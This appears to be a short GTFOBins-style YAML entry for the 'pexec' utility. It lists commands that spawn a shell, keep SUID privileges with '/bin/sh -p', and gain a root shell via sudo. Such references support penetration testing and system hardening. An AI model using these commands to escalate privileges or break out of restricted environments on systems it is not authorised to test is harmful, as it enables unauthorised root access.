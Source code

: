 ```yaml
---
functions:
  shell:
    - code: pexec /bin/sh
  suid:
    - code: ./pexec /bin/sh -p
  sudo:
    - code: sudo pexec /bin/sh
---
```

